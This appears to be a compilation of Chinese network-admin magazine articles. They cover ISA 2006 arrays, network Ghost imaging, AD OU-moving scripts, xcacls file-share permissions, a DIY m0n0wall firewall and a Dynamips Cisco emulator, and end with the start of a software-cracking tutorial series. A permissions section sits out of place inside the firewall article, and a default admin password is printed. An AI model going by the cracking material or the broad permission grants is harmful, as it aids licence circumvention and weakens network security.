完成 CSS 服务器安装后，进入控制面板的“添加/删除程序”中选中 ISA 后，点击“更改/删除”按钮，出现安装界面后选择“修改”选项，将 ISA 服务器选中安装，在出现选择 CSS 服务器时，需要输入 FQDN 名。

关键性的配置就算完成了，之后的步骤非常简单，输入一个内部 IP 地址范围，直到完成安装。现在我们需要安装 ISA-2 了，ISA-2 的部署与 ISA-1 的部署基本一样，证书部分在这里就不再讲述，说一下 ISA2006 的安装方法。载入 ISA2006 光盘执行安装，在安装方案中选择“安装 ISA 服务器服务”，单击下一步按钮，之后在查找 CSS 服务器处填写 ISA-1。因为刚才我们在 ISA-1 上安装了 CSS 和 ISA 服务，此时要注意一点，因为是工作组环境，并没有 DNS 和 FQDN 名，所以需要手工修改系统中的 hosts 文件，将需要的计算机 IP 和计算机名解析都写入 hosts 文件，文件路径在 %\system32\drivers\etc\ 下。

改的内容如下：

| IP | 主机名 |
|---|---|
| 127.0.0.1 | localhost |
| 172.168.1.1 | ISA-1 |
| 172.168.1.2 | ISA-2 |
| 172.168.1.254 | CertSrv |

此时，我们不需要再创建新阵列了，要做的只是将这台 ISA 加入刚才的阵列中，直到完成安装，如图18、19所示。

当 ISA-2 部署完成后，我们可以在任意一台 ISA 服务器中观察它们的状态。可以在服务器中看到阵列服务器中有 2 台 ISA 在工作，返回到监视器里会发现两台服务器做同步工作，此时防火墙阵列算是基本完成了，如图20、21所示。

还需要注意一个细节，就是选中防火墙阵列名点鼠标右键选择“属性”，我们需要设置阵列内凭据，设置使用一个本地管理员账号即可，如图22所示。

到目前为止，我们的 ISA2006 防火墙阵列就算是部署完成了，你可以在任意 ISA 服务器上发布各种规则，规则发布后将可以观察到两台 ISA2006 服务器将作一个同步工作，当两台 ISA 服务器同步完成后，策略也就正式生效了。虽然这里详细讲解了 ISA2006 企业版在工作组环境下如何部署阵列的方法，但我不希望大家在真实环境中使用工作组模式，强烈建议在真实环境中尽最大可能去使用 AD 环境，在 AD 环境中部署 ISA2006 企业版将不再如此烦琐，同时策略对各个人员的管理应用也将更加合理有效。在真实环境中部署，最好让 ISA-1 与 ISA-2 阵列之间通讯使用独立的网卡，不要占用内部或外部网络通讯。微软官方网站提供了 ISA Server 2006 评估版的下载，同时还有很多技术文档。

适合读者：网管  
前置知识：域知识

#### 客户端安装之网络 GHOST

文/图 朱宏志

总的来说，GHOST 是一种快速安装和恢复系统的好方法。而它与网络结合起来之后，更是让人欣喜不已。所谓网络 GHOST，就是通过网络备份、单独或批量安装或恢复系统。它由一个 GHOST 服务器程序和 GHOST 客户端程序组成。GHOST 服务器程序最好运行在 Windows XP 或 Windows 2003 系统上，而 GHOST 客户端程序通常需要一个单独的、可以加载入内存运行的操作系统启动（比如光盘启动），以便它能对硬盘进行操作。下面讲述网络 GHOST 的具体操作方法。

网上有一种称作“网络 Ghost 傻瓜启动盘”的网络 Ghost 工具，号称含有 100 种网卡驱动，是 ISO 格式，可以刻成光盘。这个工具相当实用，但其自带的 Ghost 客户端和 Ghost 多播服务器程序版本较旧（7.5），不支持 NTFS 格式。文中将其替换为更新版本（Ghost 11.0），即可支持 NTFS。只要注意客户端和服务器端的 Ghost 版本保持一致即可。

作者还提到另一款同类工具 mousedos（硬盘版和 PXE 版），集成了更多网卡驱动。当前其主要支持从服务器到客户机方向的操作，因此可与“网络 Ghost 傻瓜启动盘”结合使用；若不需要网络备份，也可仅使用 mousedos。

- 1. **第一步**：下载“网络 Ghost 傻瓜启动盘”（11.0 版本），ISO 格式文件并刻录成光盘。  
- 2. **第二步**：安装样机。建议为每种型号计算机准备样机；样机 C 盘应尽量小于目标机 C 盘（整盘镜像除外）；样机可先不加入域。  
- 3. **第三步**（可选）：为样机安装 mousedos 硬盘版，创建启动菜单，后续可直接进入恢复。  
- 4. **第四步**：将样机通过网络 Ghost 到服务器；也可先镜像到硬盘再拷贝到服务器，但网络 Ghost 更省时，整盘镜像场景更推荐。随后在服务器端运行 Ghost 多播服务（ghostsrv.exe），填写会话名称，选择“创建映像”，设置镜像保存位置（如“克隆分区”），最后点击“接受客户端”。

图1

##### 第五步：用光盘版的“网络 Ghost 傻瓜启动盘”

启动样机，与第四步结合进行 Ghost 系统备份。

从光盘启动后，会出现两个启动选项，选择第二项“More Ethernet controller”，然后在图2中选择第一项，随后出现的对话框选择“OK”。在图3中选择“Auto”；然后从列表中选择客户端使用的网卡，有时显示的名字可能与你网卡的名字并不相同，但实际是可用的。有时你用 Auto 也无法自动识别你的网卡，这时需要手动选择相应的网卡，比如我这里有客户机是 Intel Pro/VE 的网卡，用 Auto 就无法识别，只有自己手动选择。

图2

图3

网卡选好后，进入 IP 设置，我想大家的网络一般都有 DHCP 吧？如果是就选中“Enable DHCP”（默认），然后 Alt+O 确认。如果没有 DHCP，就填入一个 IP，如图4所示，之后在图5所示的窗口中直接 Alt+O 确认即可。

图4

上面完成后，会出现一个要求输入密码的提示（Type your Password），直接敲回车就是。然后输入 ipconfig 检查客户端的 IP，完成后输入“A”进入 A 盘，再输入“go”，在出现的窗口中会要求输入 IP 地址和掩码（就是前面 ipconfig 查看得到的 IP）。输入完成后按“Alt+X”键退出，系统会自动启动 Ghost。选择 GhostCast、Unicast 或 Directed BroadCast，Multicast 是多播，非常适合批量安装操作系统，因为它可以一次安装多台计算机。

图5

在图6中输入服务器端的“会话名称”，如 m，再输入第四步中提到的服务器的 IP 地址。输入后按 OK，后面的操作就与普通的 Ghost 没什么两样了，这里就不细说了。在 Ghost 过程中，你同样也能看到进度条。注意完成 Ghost 之后，更改样机的计算机名。

图6

##### 第六步：用镜像安装新的计算机

用镜像安装新的计算机要考虑客户机的情况，比如是第一次安装系统还是恢复系统，如果是第一次安装系统，是通过光盘启动还是通过 PXE 启动客户机，不同的情况采用的方法是不同的。

- 1）恢复系统

恢复系统意味着你以前安装过，也就是你的启动菜单中有 mousedos，那么就可以通过 mousedos 菜单进行系统恢复了。先给拥有镜像文件的 Ghost 服务器增加一个 IP：10.1.1.1，然后在上面运行 ghostsrv.exe 程序，如图7所示。在“会话名称”输入 m（一定要是 m，因为客户机是固定了的），选择“从镜像恢复”，“镜像文件”选择要恢复的镜像文件。我们这里恢复第一硬盘的第一分区，所以选择“克隆分区”，“磁盘编号”和“分区编号”不用填，还可以在“自动开始”栏填入合适的值，比如有两个客户端就自动开始恢复等，完成后点击“接受客户端”等待客户机连接上来：

图7

启动客户机，在启动菜单中选择“MouseDos 2.11”，在“MouseDos 2.11”窗口选择“硕鼠万能网络克隆”，此时会要求输入密码，默认为 mouse，此后会自动检测网卡，完成之后自动进入下一屏，如图8所示。默认情况下，它是使用 Ghost 11.0 自动从网络 Ghost 到本地第一块硬盘的第一分区，10 秒之后就会自动启动 Ghost 连接服务器。如果客户端连接达到图8所设定的自动开始条件或者手动点“开始克隆”，就会开始系统恢复。

图8

从上面可以看出，mousedos 客户端基本上无需人工操作，你只要启动客户机就行了，它会自动连接到服务器。这也是为什么在系统恢复和批量安装中不使用“网络 Ghost 傻瓜启动盘”而选用 mousedos 的主要原因。

- 2）初次安装客户机，只支持光盘启动

由于 Mousedos 现在还没有光盘版，所以只有自己制作一个了，我们可以利用前面的“网络 Ghost 傻瓜启动盘”的 ISO 镜像，使用替换法来制作。启动 WinISO，打开前面的“网络 Ghost 傻瓜启动盘”ISO 镜像文件，把 BCDW 下的 MANY.IMA 删掉，把 mousedos 硬盘版安装目录下的 C:\boot\grub\Images\netghost.img 复制到桌面并重命名为 MANY.IMA，把它拖动到 WinISO 窗口的 BCDW 目录下。再编辑 BOOTCAT.INI，保留第二行 \bcdw\many.ima 并修改说明文字，保存后拖回 WinISO 并保存即可。

- 3）初次安装（客户机支持 PXE）

MouseDos 有专门的 PXE 版，可到 http://www.mousedos.com 下载，建议下载 2.0 稳定版，不要使用 3.0 beta 版。在服务器端安装 MouseDos PXE 版，配置 IP 地址、子网掩码并运行相关服务；在 Tftpd32 中设置 DHCP 起始地址、动态 IP 数量、启动文件名 mousedos.pxe 及子网掩码，保存设置。将客户端设为 PXE 启动后，客户端会自动加入网络克隆会话，最后在服务器端点击“开始克隆”即可。

> 因为所有镜像的名字都一样，所以当你恢复系统之后，需要把系统先退出再加入域（如果样机没有加入域就直接加域），并同时按规则修改计算机名。此前文章讲过，新加入域的计算机账户会被自动定向到一个 OU 中，并且这个 OU 可添加特别组策略。下面按步骤进行，以避免加入新装机 OU 时出现问题：  
> 1）在域控制器上打开“Active Directory 用户和计算机”，创建新的组织单元 NetGhost，并创建好要安装系统的计算机账号，如 IT-ZHUHONGZHI，如以前有相同的账号，也请把它们移动到这个 OU。  
> 2）同样打开“Active Directory 用户和计算机”，在“查看”菜单中选择“高级功能”，然后右击前面创建的计算机账号，从弹出菜单选“属性”，在属性窗口中点击“安全”标签，添加 domain users，并赋予它完全控制的权限……

##### 后记

对于这个 OU，我们仍然需要应用一些组策略，甚至于软件安装，比如要安装极点五笔和添加打印机……以后的文章我将进一步介绍。

#### 自动移动新装机到相应部门 OU

文/图 朱宏志

上一次讲到了我们把新装的机器自动加入一个初始的 OU 中，以便应用一些组策略，但这些新装的机器总不能一直放在这个新装机 OU 中吧，我们应该把它移动到相应的部门 OU 中……下面说说思路。

- 1）在域控制器上创建一个共享，这个共享所有域用户要有写的权限。  
- 2）为新装机 OU 的组策略加一个用户登录脚本，脚本名为 no1.bat，内容如下：

```bat
@echo off
for /f "tokens=2 delims==" %%i in ('set ^| find "COMPUTERNAME"') DO echo %%i>>\\pdcsrv\gpo2\new.txt
```

上面的 for 语句是一行，注意“%%i>>”中没有空格。脚本的作用是当用户登录域时，自动将本机的计算机名写入第一步创建的网络共享下的 new.txt 文件中。

域控制器上另外创建一个脚本，这个脚本用来移动计算机到相应的部门 OU，内容如下：

```bat
for /F "tokens=1,2 delims=-" %%i in (e:\gpo2\new.txt) do dsmove "cn=%%i-%%j,ou=newcomputers,dc=cec,dc=com" -newparent "ou=%%i Dep,ou=重庆商雅,dc=cec,dc=com"
del e:\gpo2\new.txt /q
```

当移动完成后，会删除 new.txt 文件。要让上面的移动自动完成，我们的 OU 和计算机命名还必须满足合适的规则……如图2所示。

- 3）在组策略中启用“用户组策略环回处理模式”，模式为“替换”，如图1所示。  
- 4）把上面这个脚本创建为计划任务，比如每晚 11 点执行一次，这样就可以把白天使用过的新装机移入相应的部门 OU 中了。

适合读者：网管  
前置知识：域知识

#### 批处理创建层次分明的文件服务器

文/图 朱宏志

现在我们有了域的环境，对于大家都会用到的文件服务也可以好好规划了，比如可以参照图1所示，为每个部门创建一个公共文件夹，同时创建一个企业级的公用文件夹。公用文件夹只有特别用户才能写，域用户都只有读的权限，里面可以放一些大家经常要用到的文件。而每个部门文件夹下也创建一个部门公用的，然后为每个部门用户创建一个文件夹，其他人都可以读，但只有用户自己可以写，当然，你也可以根据自己的情况规划权限结构。下面我们就来看看其实现步骤。

##### 生成用户表（含用户显示名/部门/账户名）

这一步在域控制器上完成，请先整理一下 AD，把不用的用户删除，用户移动到合适的 OU。

1）将 AD 中的用户导入到 SQL Server 2000 中存储。假定域控制器主机名为“pdcsrv”，域名为 dragon.com，组织单位为“重庆龙珠”。首先创建链接服务器，打开查询分析器，输入以下语句按 Alt+X 执行。

```sql
EXEC sp_addlinkedserver 'ADSI', 'Active Directory Services 2.5', 'ADSDSOObject', 'adsdatasource'
GO
```

然后创建数据表，将“dragon.com/重庆龙珠”下的用户对象的信息导入至 ADUser 数据表中存储。

```sql
use northwind
go
SELECT [Name], distinguishedname, samAccountName
into ADUser FROM OPENQUERY(ADSI, 'SELECT Name, distinguishedname, samAccountName FROM "LDAP://pdcsrv/ou=重庆龙珠,dc=dragon,dc=com" WHERE objectCategory = ''Person'' AND objectClass = ''user''')
```

再打开 ADUser，全选记录，另存为 users.txt，分隔符为逗号，删除不必要的行保存。打开 users.txt 可以发现：1 列为姓名，5 列为部门，12 列为账户名。

##### 创建域账户

在域控制器上创建一个对文件服务器根目录及子目录有完全控制权的域账户，这里是 smsclient，这个账户不能用来进行桌面登录，这是防止病毒的一个重要措施。

##### 创建目录层次结构（在文件服务器）

假如在 D 盘上创建，就把 users.txt 拷贝到 D 盘根目录。注意，D 盘应为 NTFS 格式。

先在 D 盘创建好一个文件服务器根目录，如重庆龙珠（CN=朱宏志,OU=IT部,OU=重庆龙珠,DC=dragon,DC=com）和一个公司级的公用目录。进入命令行以“runas /user:dragon\smsclient cmd”运行，创建部门目录：

```bat
for /F "tokens=5 delims=,=" %i in (users.txt) do (
mkdir 重庆龙珠\%i
)
```

之后再创建各用户目录，命令如下：

```bat
for /F "tokens=1,5 delims=,=" %i in (users.txt) do (
mkdir 重庆龙珠\%j\%i
)
```

创建各部门的公用目录，名叫 A 部门公用，加入 A 是为了排序，方便查找。

适合读者：网管

前置知识：域知识

## DIY简易硬件防火墙

文／图 琉林阁

针对最近病毒多发造成局域网流量过大，加之简单的 SOHO 级别的路由器没有任何防御监察功能，致使局域网陷入半瘫痪状态，严重影响正常工作办公。我通过自己动手 DIY 了一个简单的硬防，同时具有路由作用，最终实现了网络正常运行。

由于单位新迁办公楼，各项设施还不是很完善，网络相关安全设备尚未到位，而局域网是通过简单交换机组成星型拓扑结构，由一个 SOHO 级别的 TP-LINK R460 路由器转发。由于此路由仅具备一般的转发功能，造成了相对局域网管理比较困难，如遇到大规模的病毒爆发或者局域网 ARP 欺骗之类的病毒，很容易造成局域网堵塞，乃至完全陷入瘫痪。由于一时安全设备尚不能到位，仅靠手工管理是完全不够的，通过在网上查阅相关资料，得知硬防原理，我们可以通过自己动手，利用现有设备，来 DIY 一个简单的硬防。

我们先看下百度词条中对硬防的解释。硬件防火墙是指把防火墙程序做到芯片里面，由硬件执行这些功能，能减少 CPU 的负担，使路由更稳定。

硬件防火墙是保障内部网络安全的一道重要屏障。它的安全和稳定直接关系到整个内部网络的安全。因此，日常例行的检查对于保证硬件防火墙的安全是非常重要的。系统中存在的很多隐患和故障在爆发前都会出现这样或那样的苗头，例行检查的任务就是要发现这些安全隐患，并尽可能将问题定位，方便问题的解决。

一般来说，硬件防火墙的例行检查主要针对以下内容。

- 1）硬件防火墙的配置文件的全面和严密。一旦硬件防火墙投入到实际使用环境中，情况随时都在发生改变。硬件防火墙的规则总会不断地变化和调整，配置参数也会时常有所改变。作为网络安全管理人员，最好能够编写一套修改防火墙配置和规则的安全策略，并严格实施。所涉及的硬件防火墙配置，最好能详细到类似哪些流量被允许，哪些服务要用到代理这样的细节。

在安全策略中，要写明修改硬件防火墙配置的步骤，如哪些授权需要修改、谁能进行这样的修改、什么时候才能进行修改、如何记录这些修改等。安全策略还应该写明责任的划分，如果一人具体做修改，另一人负责记录，第三个人来检查和测试修改后的设置是否正确。详尽的安全策略应该保证硬件防火墙配置的修改工作程序化，并能尽量避免因修改配置所造成的错误和安全漏洞。

- 2）硬件防火墙的磁盘使用情况

如果在硬件防火墙上保留日志记录，那么检查硬件防火墙的磁盘使用情况是一件很重要的事情。如果不保留日志记录，那么检查硬件防火墙的磁盘使用情况就变得更加重要了。保留日志记录的情况下，磁盘占用量的异常增长很可能表明日志清除过程存在问题，这种情况相对来说还好处理一些。在不保留日志的情况下，如果磁盘占用量异常增长，则说明硬件防火墙有可能是被人安装了 Rootkit 工具，已经被人攻破。

因此，网络安全管理人员首先需要了解在正常情况下，防火墙的磁盘占用情况，并以此为依据，设定一个检查基线。硬件防火墙的磁盘占用量一旦超过这个基线，就意味着系统遇到了安全或其他方面的问题，需要进一步的检查。

- 3）硬件防火墙的 CPU 负载

和磁盘使用情况类似，CPU 负载也是判断硬件防火墙系统运行是否正常的一个重要指标。作为安全管理员，必须了解硬件防火墙系统 CPU 负载的正常值是多少，过低的负载值不一定表示一切正常，但出现过高的负载值则说明防火墙系统肯定出现问题了。过高的 CPU 负载很可能是硬件防火墙遭到 DoS 攻击或外部网络连接断开等问题造成的。

- 4）硬件防火墙系统的精灵程序

每台防火墙在正常运行的情况下都有一组精灵程序（Daemon），比如名字服务程序、系统日志程序、网络分发程序或认证程序等。在例行检查中必须检查这些程序是不是都在运行，如果发现某些精灵程序没有运行，则需要进一步检查是什么原因导致这些精灵程序不运行，还有哪些精灵程序在运行中。

- 5）系统文件

关键的系统文件的改变不外乎三种情况：管理员有目的、有计划地进行修改，比如计划中的系统升级所造成的修改；管理员偶尔对系统文件进行的修改；攻击者对文件的修改。经常性地检查系统文件，并查对系统文件修改记录，可及时发现防火墙所遭到的攻击。此外，还应该强调一下，最好在硬件防火墙配置策略的修改中，包含对系统文件修改的记录。

- 6）异常日志

硬件防火墙日志记录了所有允许或拒绝的通信信息，是主要的硬件防火墙运行状况的信息来源。由于该日志的数据量庞大，所以检查异常日志通常应该是一个自动进行的过程。当然，什么样的事件是异常事件，得由管理员来确定，只有管理员定义了异常事件并进行记录，硬件防火墙才会保留相应的日志备查。

上述 6 个方面的例行检查也许并不能立刻检查到硬件防火墙可能遇到的所有问题和隐患，但持之以恒地检查对硬件防火墙稳定可靠地运行是非常重要的。如果有必要，管理员还可以用数据包扫描程序来确认硬件防火墙配置的正确与否，甚至可以更进一步地采用漏洞扫描程序来进行模拟攻击，以考核硬件防火墙的能力。

通过以上解释，我们可以看出，硬防其实也是一个软件程序，只不过是将程序写入芯片中，由硬件来执行。我们要做的，也是一个既可以有一般硬件防火墙防护作用，同时也可以做路由器使用（就是我们常说的软路由）的硬件防火墙。

基本基调定下了，下一步就是找一个比较好的软件来实现。通过搜索，找到了基于优秀 FreeBSD 系统的 m0n0wall。从 m0n0wall 的官方网站（http://www.m0n0.ch/wall）我们可以得知，m0n0wall 是一个完整的嵌入防火墙软件包，当与一台嵌入个人电脑一起使用时，在免费使用自由软件的基础上，提供具备商业防火墙所有的重要特性（包括易用）。m0n0wall 基于 FreeBSD 的精简版本，使用 Web 服务器（httpd）、PHP 以及其他一些工具。整个系统配置被存放在一个 XML 文本文件中并且保持事件明晰。m0n0wall 可能是在启动时使用 PHP 配置的第一个 UNIX 系统，而不是通常使用的 Shell 脚本，并且整个系统配置被存放在 XML 格式中。

这些完全符合我们所需的条件，于是我找了一台机器开始 DIY。所谓硬件为联想逐日 2000 主机一台（配置赛扬 800，256M SD 内存，板载声卡、显卡，拆机 8139 网卡两块，1G 拆机硬盘一块（专业点的可以自己去买一块 DOM 电子盘，效果更好））。

##### 制作过程

首先是把下载的 img 镜像文件写到硬盘上。写盘工具已经随文提供给大家，最新版本是 0.5.1。我们看下写盘工具的使用，如图 1 所示。要注意的是，如果你的硬盘超过了 2G，则必须加“-u”参数。

下面我们开始写盘，将写盘程序和 m0n0wall 镜像放到同一目录下。注意正确选择你要写的盘，不要把自己的主硬盘写了。我这里的第一块硬盘是 WD 的 80G 硬盘，标号为 0，我要写的盘是标号为 1 的盘，选择“y”确认后就开始了写盘过程，如图 2 所示。

写盘成功后，我们重新接上写入了 m0n0wall 的硬盘，发现其占用只有 24M，比起我们常用的 Windows，真是小得可爱，如图 3 所示。

系统做好了，我们把它拆到用来做防火墙的 PC 上，然后接好显示器、键盘就可以启动了。没有条件的朋友可以在虚拟机中先测试，建立普通的 PC，设备中虚拟两块网卡。在飞速显示 N 条信息后，我们可以看到停留在图 4 所示的设置界面上。很简单的英文，相信大家都可以看懂，下面我把使用方法给大家介绍一下。

选择 1，会询问我们是否设置 VLAN，我们不需要，所以选择 N，然后会让你设置网卡，一块用来做 LAN 口，一块用来做 WAN 口，如图 5 所示。如果实在弄不清楚可以输入“a”，让系统自动选择。设置完成后防火墙会要求重启，我们选择“y”，防火墙就自动重启了。

重启后我们就可以通过 Web 界面来管理了。将 WAN 口和 LAN 口分别接上网线，WAN 口接外网，LAN 口接内网交换机，如果你不确定哪块是 WAN 口或者 LAN 口的话，分别接下试试就可以了。

首先设置我们的 IP 地址，如图 6 所示。这里需要说明的是，因为 m0n0wall 默认的管理地址是 192.168.1.1，如果你原先设置的是其他网段，比如 192.168.0.*，你可以在登录 m0n0wall 管理界面后修改。

输入用户名 admin，密码 mono 后就进入了 Web 管理界面，是不是很酷呢？点击常规设置，这里我们需要输入 DNS 服务器等信息，也可以在这里修改管理密码、端口等信息，如图 7 所示，然后点击保存就可以了。

之后设置有关 LAN 的信息，如图 8 所示。这里可以修改 LAN 地址，比如我修改成了 192.168.0.1，这样我们就可以通过 192.168.0.1 来管理了。

接下来是设置 WAN 口信息，下面我分别介绍使用固定 IP（static）方式、拨号（PPPoE）方式的设置办法。

固定 IP（static）方式如图 9 所示，写入 IP 地址和网关后保存就可以了。拨号（PPPoE）方式，输入你的拨号用户名和密码，一般就会自动拨号了，如图 10 所示。

下面我们再看一下 m0n0wall 在安全方面的设置。点击防火墙下面的规则，在这里可以为 WAN 口和 LAN 口分别设置规则，便于我们管理，如图 11 所示。点击添加，就是那个圆圈内有“+”的那个图标，图 12 所示，是不是很简单明了？同样添加后，我们选择保存就可以了。同时，我们还可以选择 NAT、流量管理、别名等，这些大家如果有需要的话就研究一下吧。我这里就不浪费版面了，呵呵。

点击状态信息，我们可以查看当前系统运行的信息，比如运行时间、CPU 占用等信息。此外，我们还可以查看当前流量图示，不过需要安装 Adobe SVG Viewer 才能正常显示，我这里一起给大家提供了。看看我的当前流量显示，如图 13 所示。在诊断栏当中，我们可以看到日志、备份／还原、出厂设置等操作，一旦失误操作，可以很容易地恢复到初始状态。

##### 设置权限

- 1）根目录及以下 smsclient 有完全控制的权限。  
`xcacls 重庆龙珠 /t /g dragon\smsclient:f /y`

- 2）根目录及以下 dragon\administrator 和 system 有读和删的权限，方便杀毒软件扫描和清除病毒，因为杀毒软件进程通常都运行于上面两个账号下。  
`xcacls 重庆龙珠 /t /g dragon\administrator:rd /e /y`  
`xcacls 重庆龙珠 /t /g system:rd /e /y`

- 3）根目录及以下所有人有读的权限（可选）。  
`xcacls 重庆龙珠 /t /g everyone:r /e /y`

- 4）每个部门的部门公用文件夹本部门还有读和写的权限。  
`for /F "tokens=5,12 delims==" %i in (users.txt) do (xcacls 重庆龙珠\%i\A部门公用 /t /g dragon\%j:rw /e /y)`

- 5）每个人对自己的文件夹有完全控制的权限。  
`for /F "tokens=1,5,12 delims==" %i in (users.txt) do (xcacls 重庆龙珠\%i\%j /t /g dragon\%k:f /e /y)`

- 6）共享最上层且共享权限为 everyone 完全控制。

说明：权限分为几种，即读、写、删、完全控制，相当于 view、insert、delete、full；上面的 xcacls 命令有继承权限，“/t”参数可影响到所有子目录，“/e”参数是添加而不是替换。设置权限应该从上到下，方便继承，先设置普遍权限，再设置针对少数人的权限。

`for /F "tokens=5 delims==" %i in (users.txt) do (mkdir 重庆龙珠\%i\A部门公用)`

最后，在域组策略中添加一个启动脚本，把上面的共享映射为本地的 Z 盘，这样用户就能更方便地访问文件共享了。

m0n0wall 在我这里已经安家两个多月了，在使用中表现出了良好的负载性，对网络也有了一款相对实用的管理工具。此 DIY 办法简单实用，成本不高，推荐预算不多的网吧用户和中小企业用户使用。

好了，絮絮叨叨地和大家说了这么多，简单地讲了 m0n0wall 的一点使用知识，更多使用办法、技巧期待大家发现和挖掘，如果你有什么心得，欢迎来黑防论坛和大家讨论！

---

适合读者：网管

前置知识：域知识

## 菜鸟也学PC：上架Cisco路由器

文／图 天落

平时我们接触的不是 Windows XP/2003，就是 Linux。最近小弟也想学一学 Cisco 路由器，考个国际认证什么的，只不过这路由器价钱不菲，我等小菜可消受不起。还好如今网络发达，上网去找找有没有什么好用的模拟器试试。经过一阵搜索，终于找到一个好东西 Dynamips，试了一下，还真不错。它和以前网络上流行的 BOSON 模拟器的最大区别在于，它是模拟路由硬件环境来运行 IOS（就是路由器的操作系统）的，就像我们电脑上的游戏模拟器可以模拟出各种非 PC 游戏一样。

首先到工大瑞普（http://ciscobbs.njut.edu.cn）下载 Dynamips@EDURainbow，这是一个已有完整实验环境的软件包，包括了所有 IOS；还有另外几个软件包，供有一定经验朋友学习。没接触过的朋友也没关系，下面就跟小弟一起踏上 Cisco 路由之旅吧。

##### 安装配置

我们先进入 setup（安装）目录，如果以前你没安装过 WinPcap，就双击“安装 WinPcap.cmd”这个批处理。再双击“修改网卡参数.cmd”，会弹出一个 CMD 窗口，按任意键后把网卡参数下面那一排形如“\Device\NPF_{03AFC5B1-DB1A-436E-BDA9-F3E72DA224D0}”的复制下来，粘贴在“粘贴获取到的网卡参数：”后面，并回车确认参数，如图 1 所示。

至此基本配置就算完成，不难吧？小弟这里使用的是 VMWare 虚拟机的网卡参数，大家可别照抄哦，得依自己情况而定。好了，现在我们就可以启动路由了，退到 Dynamips@EDURainbow 目录下，双击“虚拟服务XP&2003.bat”，如果你是 Windows 2000 系统，就双击“虚拟服务Win2000.bat”，打开一个窗口，记住别关了它，如图 2 所示。

其他的 1 到 7 的几个批处理是你想用的路由版本。比如 CCNA 路由版，支持路由基本操作、RIP、EIGRP、NAT、ACL 等基本路由实验，开启 5 个模拟路由仅用 120M 内存。双击“控制台CCNA路由版.cmd”启动控制台窗口，也别关闭它，如图 3 所示。

我们可以开启一个路由做实验，可以一次性开启多个，用命令 `list` 可以查看一共有几个可用的路由。我开了 2 个路由器，一个交换机，注意交换机是不可配置的。接下来就可以用命令 `start R1`（不要双引号，中间有空格，大小写敏感）开启路由 R1，也可以用 `start R1 R2 R3 R4` 一次开多个，还能用 `start /all` 开启所有的路由。为了方便说明，我开启路由器 R1 和路由器 R2。

本文用 R1 做例子，R2 依样设置便行。现在注意了，底下有一句话“Warning: Starting R1 with no idle-pc value”，说 R1 没有设置 idlepc 值，其实不用理它也行，不过为了让 CPU 工作更好还是设置一下为好。用命令 `idlepc get R1` 取得这个值，等待一会儿，出来了几个值，选择有“*”号那个前面的数字，这里是数字“4”。在“Enter the number of the idlepc value to apply [1~8] or ENTER for no change:”后面输入 4，回车确认即可，如图 4 所示。

现在，路由器 R1 就能良好运作了。最后还要键入 `idlepc save R1 db` 保存，下次重启就不用再设置了，接着把路由器 R2 也设好 idlepc 值。

##### 登录实验

在开始之前，我们先看看拓扑图，进入 `top` 文件夹，双击“CCNA路由版.gif”，如图 5 所示。我们只用 R1 和 R2 做实验，其它暂时不理。

在控制台下输入 `telnet R1 R2` 就可以登录 R1 和 R2 了，此时会弹出路由控制窗口，询问要不要进行初始设置。如果是第一次接触路由，就键入“yes”去看看；这里键入“no”回车，就会进入路由用户模式，如图 6 所示。

当出现了“router>”就说明现在进入了用户模式，已经可以运行一些简单的命令了；但我们更希望进入特权模式，以运行更多命令。在用户模式下输入“enable”（可以省为 en），出现“router#”就表明现在是管理员了，可以做一切事情，如图 7 所示。

按下“Tab”键，它会帮你自动补全，真不错。接下来我们来配置一下。在“router#”后键入“config terminal”（可省为 conf t），进入全局配置模式，出现“Router(config)#”。我们修改一下主机名，键入“hostname R1”，回车确认，出现“R1(config)#”就表明成功了。然后我们再设置 IP 地址……再键入“no shutdown”（可省为 no shut）命令激活这个接口。

同样，在路由器 R2 上也进行 IP 设置，只要 IP 在一个网络内就可以。进入 R2 接口，这里用命令“ip address 192.168.0.2 255.255.255.0”“no shut”就可以了（有些串行接口可能还要用“clock rate 64000”启动时钟）。好了，现在我们试一试两个路由器成功连接了没有。在“R1(config-if)#”下键入“end”退到“router#”提示符下，ping 一下 R2，键入“ping 192.168.0.2”，OK，两个路由连上了，成功！

在“router#”提示符下，键入“show running-config”（可省为 sh run）查看当前配置，“sh int”查看路由接口状态，还可以键入“？”来获得帮助。如果某个命令记不全，就键入开头几个字符，然后按下“Tab”键，它会帮你自动补全。

##### 结语

以上只是小弟初步给大家展示了一下 Dynamips 的基本用法，要想进一步学习，可以自行参考一些资料，相信不久的你，必定能从小菜到高手。若使用中遇到什么疑问，欢迎来信或者登录黑防论坛与小弟交流探讨，共同进步（netivc@126.com）。

IceFire：自从黑防开办“密界寻踪”这个栏目以来，一直有不少读者给我们来信说自己想成为 Cracker；希望我们能够教教他怎样才能够迅速成为一个破解高手，找到一条捷径，或者希望我们能够整理出一套完整的破解教程，或者希望我们能够帮忙破解软件……总之，成为 Cracker 是很多读者的心中梦想。为了能帮助大家了却这个心愿，从本期开始，我们将特别开辟“小菜学破解”系列教程，从简到深，系统地帮助大家学习破解知识，假以时日，希望我们的读者当中，也能出现一些真正的破解高手。

不过，这里我还要跟大家说一件事，当 Cracker 的目的不是要破解软件，而是要通过跟踪软件，了解程序思路，从而提高自己，使自己能写出更好的程序；并且破解不在多，而在于你要掌握它，尽量了解注册码的计算原理，并懂它的算法。在破解的学习中，相信初学者肯定会遇到不少困难，此时千万不要灰心，因为胜利就在你的眼前，希望就在转角，恒心方能造就成功！所谓剑客离不开剑，破解高手也离不开破解工具，合适的工具会使你事半功倍。作为“小菜学破解”的开山之作，第一篇教程将着力为大家介绍几款破解工具，看后可要记得将它们收集起来哦！

最后，给大家透露一个小秘密，为我们写系列教程的破解高手完全是自学的破解，其本职工作与计算机毫无关系，所以，看了多年黑防的你，成为破解高手，真的毫无问题！挑战什么，Let's go！

- 适合读者：破解爱好者
- 前置知识：汇编语言

#### 小菜学破解之一

##### 破解兵器：夏雨风基础篇

文／图 laoxuetong


很多朋友刚刚入道，学习破解的时间不长。对软件跟踪的过程中所遇到的问题，常常不知所以；而且也常常找不到关键代码。找到了关键性代码，迫于自身能力的原因，如注册机的制作、破解补丁的制作又不知道该怎么完成。也有一些朋友虽然能够完成算法的分析，但是写出来的破解文章在发表时，其代码部分的整理又实在让人不敢恭维。

